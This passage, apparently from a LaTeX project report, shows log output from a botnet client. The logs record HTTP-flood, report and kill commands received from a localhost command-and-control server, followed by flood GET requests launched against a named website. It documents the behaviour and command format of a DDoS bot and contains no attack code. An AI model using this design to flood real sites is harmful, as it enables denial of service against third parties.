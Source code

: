 \begin{verbatim}
    08:37:04.371 Received command ATTACK_HTTPFLOOD 
                with params {attacks=[
                HttpFloodAttack(super=AbstractFloodAttack(executions=3,
                period=10-120:MILLISECONDS), method=GET, header={User-Agent=myBot},
                params={}), HttpFloodAttack(super=AbstractFloodAttack(executions=1,
                period=null), method=GET, header={}, params={})], report=false}
                from C&C at http://localhost:3000/command
    08:37:08.392 Received command ATTACK_HTTPFLOOD
                with params {attacks=[
                HttpFloodAttack(super=AbstractFloodAttack(executions=3,
                period=10-120:MILLISECONDS), method=GET, header={User-Agent=myBot},
                params={}), HttpFloodAttack(super=AbstractFloodAttack(executions=1,
                period=null), method=GET, header={}, params={})], report=false}
                from C&C at http://localhost:3000/command
    08:37:33.450 Received command REPORT
                with params {} from C&C at http://localhost:3000/command
    08:38:00.225 Received command KILL
                with params {report=false} from C&C at http://localhost:3000/command
\end{verbatim}

\noindent\\
The following are attacks-related events (recorded in \texttt{data/log/attacks.log}):

\begin{verbatim}
    08:37:04.393 Launching HTTP FLOOD attack:
                 GET http://www.micheleporretta.com (1/1) behind proxy none
    08:37:04.396 Launching HTTP FLOOD attack:
                 GET http://www.micheleporretta.com (1/3) behind proxy none
    08:37:04.686 Launching HTTP FLOOD attack:
                 GET http://www.micheleporretta.com (2/3) behind proxy none
    08:37:05.104 Launching HTTP FLOOD attack:
                 GET http://www.micheleporretta.com (3/3) behind proxy none
    08:37:08.395 Launching HTTP FLOOD attack:
                 GET http://www.micheleporretta.com (1/3) behind proxy none
    08:37:08.396 Launching HTTP FLOOD attack:
                 GET http://www.micheleporretta.com (1/1) behind proxy none
    08:37:09.824 Launching HTTP FLOOD attack:
                 GET http://www.micheleporretta.com (2/3) behind proxy none
    08:37:10.734 Launching HTTP FLOOD attack:
                 GET http://www.micheleporretta.com (3/3) behind proxy none
\end{verbatim}
\noindent\\
The following are reports-related events, recorded in \texttt{data/log/reports.log}):

